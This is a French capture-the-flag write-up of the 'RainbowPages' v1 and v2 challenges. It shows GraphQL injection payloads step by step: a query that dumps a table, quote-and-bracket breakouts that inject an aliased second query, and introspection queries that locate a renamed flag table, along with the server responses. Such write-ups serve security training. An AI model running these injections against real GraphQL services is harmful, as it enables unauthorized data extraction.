 # RainbowPages

## Script

J'ai utilisé [rainbow.py](rainbow.py) pour executer des requêtes simplement.

## Liens utiles (pour la v1 et la v2)
-   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/
-   https://graphql.org/learn/queries/
-   https://graphql.org/learn/schema/
-   https://graphql.org/learn/introspection/
-   https://spec.graphql.org/June2018/


## RainbowPages v1

Requête de base du site
```sh
{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}
```

Payload qui liste toute la table `allCooks`
```sql
{ allCooks { nodes { firstname, lastname, speciality, price }}}

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Delbert","lastname":"Kshlerin","speciality":"Burger","price":31467},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Consuelo","lastname":"Kub","speciality":"Only Fruits","price":65607},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Piper","lastname":"Blick","speciality":"Breton gastronomy","price":77482},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```

Messages d'erreur qu'on peut trouver
```sql
{"errors":[{"message":"Syntax Error: Expected Name, found }","locations":[{"line":1,"column":14}]}]}

{"errors":[{"message":"Field \"allCooks\" of type \"CooksConnection\" must have a selection of subfields. Did you mean \"allCooks { ... }\"?","locations":[{"line":1,"column":3}]}]}
```

On copie ce message d'erreur sur google, on voit que c'est du graphQL.

On trouve ce github qui possède une requete pour dump la db https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection

J'ai mis le dump dans le fichier [rainbow.json](rainbow.json). On voit la table `allFlags`.

Payload qui récupère le flag
```sh
{ allFlags { nodes { id, flags}}}
```

## RainbowPages v2

La différence avec la v1 est que la requetes n'est pas envoyé côté client mais géré côté serveur.
De ce que j'ai compris, la requête est assez similaire à celle de la v1, mais plus compliqué.
On peut injecter un payload en mettant une `"`.

Le principe est de fermer les `{`, `(`, `[` pour injecter notre propre requete.

On va d'abord essayer de faire une 2eme requete comme celle de base, càd lister les prix des cuisiniers.

Par tatonnement, et en suivant les erreurs, on arrive à fermer la requete avec le bon ordre de `{`, `(`, `[`.

Si on remonte trop avec un payload du type `"}}]})} query { `. On a une erreur disant qu'on ne peut pas faire deux requêtes anonymes.
Ce n'est pas bon. On est remonté un cran trop haut.

On arrive donc à `}}]})`.

Voici un payload qui rècupère les prix des cuisiniers.
```sh
corentin"}}]}){nodes{firstname}} yo: allCooks { nodes { price} }     }#
```
-   Le `yo` est un alias arbitraire qui est necessaire lorsque l'on faire deux requetes (voir lien spec graphsql).
-   Le `#` mets en commentaire la fin de la requête.

La table `allFlags` n'existe pas, ils ont dû la renommer.
Direction l'introspection pour récuperer les infos sur db.

Ce payload liste les types de la db. On voit des `FlagNotTheSameTableName`, c'est la table qu'on cherche.
```sh
corentin"}}]}){nodes{firstname}} yo: __schema {types { name }}     }#
```

Avec ce payload on peut lister les champs (fields) de chaque type
```sh
corentin"}}]}){nodes{firstname}} yo: __type(name: "FlagNotTheSameTableName"){fields{name}}     }#
```

Il reste plus qu'à créer le payload final
```sh
corentin"}}]}){nodes{firstname}} yo: allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}     }#
```

Nb: j'ai toujours pas compris le jeu de mot avec `RainbowTables`

